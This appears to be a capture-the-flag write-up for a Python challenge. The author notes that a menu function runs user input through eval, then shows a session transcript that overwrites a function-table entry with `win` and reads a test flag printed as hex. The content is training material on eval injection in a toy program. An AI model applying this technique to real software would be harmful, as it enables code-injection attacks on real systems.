






#### Sol:

look source code carefully.



this function allows us to write in the table and



 it also execute our input with eval comand.

our main target is to call `win` function. let's add `win` function to the table to read the `flag` file

Here is our test flag




Let's do it

```
==> 1
1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==> 2
Please enter variable name to read: read_variable
<function read_variable at 0x7c2813207ba0>
==> 3
Please enter variable name to write: write_variable
Please enter new value of variable: win
==> 2
Please enter variable name to read: win
<function win at 0x7c2813228180>
==> 1
1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==> 3
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x48 0x65 0x6c 0x6c 0x6f 0x7d 
==> quit
```





Let's get the final flag




